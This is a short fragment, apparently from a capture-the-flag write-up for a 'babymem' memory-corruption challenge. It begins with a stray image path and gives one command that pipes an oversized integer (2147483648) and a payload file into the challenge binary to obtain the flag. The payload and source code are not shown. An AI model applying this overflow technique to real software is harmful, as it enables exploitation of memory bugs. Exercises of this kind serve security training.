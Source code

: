 You can use the following command to get the flag.

```
./run.py
(echo "2"; echo "2147483648"; cat payload) | /babymem_level5_testing1
```